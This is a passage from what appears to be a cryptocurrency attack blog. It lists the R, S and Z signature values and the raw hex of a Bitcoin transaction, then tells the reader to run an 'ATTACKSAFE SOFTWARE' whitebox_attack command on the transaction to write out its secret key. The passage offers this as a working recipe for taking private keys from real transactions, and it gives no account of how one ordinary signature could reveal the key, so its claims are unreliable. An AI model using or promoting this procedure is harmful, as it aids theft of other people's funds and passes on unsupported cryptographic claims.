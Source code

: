 

<pre class="wp-block-code"><code>R = 0xaf4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f26
S = 0x0a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562
Z = 0xf3c7d4c7371a2c57be6b3eb6c446128a3a2cefdb593e6577750c95d22cd8309c</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000183635783312a2792b673755da31df935ec22ff9916b4b43b4cefed644cb55a910b0000006b483045022100af4133119bb32776d86b952d7c697f56cc0b12f7053eeb76de8e62d6c9e32f2602200a9394acbcb515f16df5d2f94b970b3d9da0c91a7d372d62794f2234b40cd562012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff014e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool whitebox_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img decoding="async" src="./We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key - CRYPTO DEEP TECH_files/image-31-1024x359.png" alt="We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key" class="wp-image-1613"></figure>


